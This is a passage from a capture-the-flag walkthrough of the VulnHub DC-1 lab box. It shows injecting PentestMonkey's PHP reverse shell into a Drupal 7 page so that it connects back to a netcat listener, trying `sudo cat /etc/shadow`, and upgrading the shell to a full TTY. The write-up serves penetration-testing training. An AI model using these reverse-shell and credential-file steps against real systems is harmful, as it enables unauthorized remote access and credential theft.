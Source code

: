       - Trying `sudo cat /etc/shadow` fails, so we don't have sudo or root privs. *Sudo may not even be installed*

### PHP revshell  
- Now it's time to get ourselves a revshell through php injection... let's insert the following php code from this raw github file...
  - [PentestMonkey's PHP revshell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
  - You'll want to modify the following lines of code to match up with your `nc -nvlp 1234` command. The PHP code will callback to netcat and allow us to connect via a shell on the DC-1 box. *You can change the ports to whatever you'd like*.
    - $ip = '192.168.56.1';  // CHANGE THIS
    - $port = 1234;       // CHANGE THIS

  - Now open up another terminal with the `nc -nvlp 1234`, I mentioned before.
    - You should now have both:
      1. terminal with `nc -nvlp 1234` running.
      2. Drupal Basic Page filled in with PentestMonkey's reverse php shell
  - Let's hit preview and we should get a revshell as www-data. If we do, we'll move onto privilege escalation.
    - The Drupal page will likely hang, let it be. Minimize it and forget about it. If you refresh or close it, you'll lose your revshell.
- We now have a revshell into the box but lacks tty! We'll fix this in the next section.
  - Let's do a quick test by typing `whoami` into our new revshell. You should see "www-data".
  ![DC-1 Drupal 7 - revshell w/o tty](/images/CTF/VulnHub/DC-Series/DC-1/no-tty.png "DC-1 Drupal 7 - revshell w/o tty")

## Privilege Escalation

At this point, we now have a revshell into DC-1 whom does not have root privs. We'll need to find a way to escalate the privs, so we can 'own' the box!

### Custom tty
- First thing I like to do is get a tty and make our local terminal not break connection even if you press CTRL+C.
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
  - `export TERM=xterm-256color`
  - `alias ll='ls -lsaht --color=auto'`
  - Press Ctrl + Z to make it a background process
  - `stty raw -echo;fg;reset`
  - `stty columns 200 rows 200`
- Now that you have a tty shell, with alias ll, and you can't CTRL+C out of it on accident.. Let's get to privesc(privilege escalation) but before that let's update our 'notes'
<br>
  > **Box Name:** DC-1  
  > **IP:** 192.168.56.110  
  > **OS:** Debian(Linux)  
  > **Ports & Service:**  
  > ***80*** - Apache httpd 2.2.22 - Drupal CMS v7.24 - php 5.4.45-0+deb7u14 - mysql version?  